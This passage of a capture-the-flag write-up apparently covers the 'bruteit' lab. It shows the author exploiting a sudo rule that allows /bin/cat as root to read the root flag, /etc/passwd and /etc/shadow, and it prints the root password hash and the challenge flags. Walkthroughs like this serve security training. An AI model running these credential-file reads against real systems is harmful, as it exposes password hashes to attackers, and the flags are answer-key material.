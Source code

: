  * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as <span class="hljs-keyword">of</span> Mon Jan <span class="hljs-number">29</span> <span class="hljs-number">00</span>:<span class="hljs-number">15</span>:<span class="hljs-number">31</span> UTC <span class="hljs-number">2024</span>

  System load:  <span class="hljs-number">0.0</span>                Processes:           <span class="hljs-number">105</span>
  Usage <span class="hljs-keyword">of</span> /:   <span class="hljs-number">25.7</span>% <span class="hljs-keyword">of</span> <span class="hljs-number">19.56</span>GB   Users logged <span class="hljs-keyword">in</span>:     <span class="hljs-number">0</span>
  Memory usage: <span class="hljs-number">21</span>%                IP address <span class="hljs-keyword">for</span> eth0: <span class="hljs-number">10.10</span>.<span class="hljs-number">58.60</span>
  Swap usage:   <span class="hljs-number">0</span>%


<span class="hljs-number">63</span> packages can be updated.
<span class="hljs-number">0</span> updates are security updates.


Last login: Mon Jan <span class="hljs-number">29</span> <span class="hljs-number">00</span>:<span class="hljs-number">14</span>:<span class="hljs-number">47</span> <span class="hljs-number">2024</span> from <span class="hljs-number">10.13</span>.<span class="hljs-number">0.39</span>
</code></pre><pre><code>john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>cat user.txt 
THM{a_password_is_not_a_barrier}
</code></pre><p><strong>Privilege Escalation</strong></p>
<p>This command shows what sudo privileges john has</p>
<pre><code>john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>sudo -l
Matching Defaults entries <span class="hljs-keyword">for</span> john on <span class="hljs-symbol">bruteit:</span>
    env_reset, mail_badpass, secure_path=<span class="hljs-regexp">/usr/local</span><span class="hljs-regexp">/sbin\:/usr</span><span class="hljs-regexp">/local/bin</span>\<span class="hljs-symbol">:/usr/sbin</span>\<span class="hljs-symbol">:/usr/bin</span>\<span class="hljs-symbol">:/sbin</span>\<span class="hljs-symbol">:/bin</span>\<span class="hljs-symbol">:/snap/bin</span>

User john may run the following commands on <span class="hljs-symbol">bruteit:</span>
    (root) <span class="hljs-symbol">NOPASSWD:</span> /bin/cat
</code></pre><p>Searching <a href="https://gtfobins.github.io/gtfobins/cat/#sudo">gtfobins</a> I find the following commands that allow me to set the root.txt flag (which is usually in the root directory) to a variable and then use cat to read the file</p>
<pre><code>john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>LFILE=<span class="hljs-regexp">/root/root</span>.txt
john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>sudo /bin/cat <span class="hljs-string">"$LFILE"</span>
THM{pr1v1l3g3_3sc4l4t10n}
</code></pre><p><strong>Login as root user</strong></p>
<p>With sudo privileges I can read the /etc/shadow file which is inaccesible to regular users</p>
<pre><code>john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>sudo /bin/cat /etc/passwd | head -n <span class="hljs-number">1</span>
<span class="hljs-symbol">root:</span><span class="hljs-symbol">x:</span><span class="hljs-number">0</span><span class="hljs-symbol">:</span><span class="hljs-number">0</span><span class="hljs-symbol">:root</span><span class="hljs-symbol">:/root</span><span class="hljs-symbol">:/bin/bash</span>
john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>sudo /bin/cat /etc/shadow | head -n <span class="hljs-number">1</span>
<span class="hljs-symbol">root:</span><span class="hljs-variable">$6</span><span class="hljs-variable">$zdk0</span>.jUm<span class="hljs-variable">$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg</span>/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.<span class="hljs-symbol">:</span><span class="hljs-number">18490</span><span class="hljs-symbol">:</span><span class="hljs-number">0</span><span class="hljs-symbol">:</span><span class="hljs-number">99999</span><span class="hljs-symbol">:</span><span class="hljs-number">7</span><span class="hljs-symbol">:</span><span class="hljs-symbol">:</span><span class="hljs-symbol">:</span>